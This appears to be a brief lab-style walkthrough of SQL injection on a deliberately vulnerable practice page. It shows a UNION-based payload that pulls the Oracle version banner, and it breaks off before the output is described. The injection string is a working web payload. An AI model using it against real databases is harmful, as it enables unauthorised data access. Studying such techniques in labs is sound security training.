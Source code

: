 This is a vulnerable page which will be conduct SQL Injection attack by query

SELECT * FROM someTable WHERE category=Gifts


![image](https://user-images.githubusercontent.com/65653010/235273796-6e284c0d-3450-4b87-845a-422a339ab40b.png)

For this we do a Injection query 

SELECT * FROM someTable WHERE category='Pets' UNION SELECT 'a',banner FROM v$version--'

![image](https://user-images.githubusercontent.com/65653010/235273802-bbd568a8-5862-4c10-8b73-f078ec8be4e4.png)

![image](https://user-images.githubusercontent.com/65653010/235425011-f1518697-ae67-49b8-9a16-6dbde255f090.png)

This results in this output on the page: 
